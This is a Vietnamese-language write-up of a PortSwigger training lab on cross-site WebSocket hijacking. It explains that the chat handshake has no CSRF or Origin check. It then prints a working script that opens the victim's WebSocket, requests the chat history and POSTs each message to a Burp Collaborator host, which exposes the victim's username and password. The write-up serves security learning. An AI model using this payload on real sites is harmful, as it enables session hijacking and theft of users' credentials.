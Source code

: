 🧪 **Lab: Cross-site WebSocket Hijacking (PortSwigger)**
🔗 **Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab**

🧠 **Phân tích kỹ thuật đề bài**
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ **Điểm yếu bảo mật:**
WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 **Mục tiêu**
Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 **Bước 1: Quan sát hoạt động của WebSocket**
Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 **Bước 2: Khai thác bằng JavaScript**
Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 **Quy trình khai thác**
Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 **Bước 3: Đăng nhập và hoàn thành Lab**
Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ **Kết luận**
Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

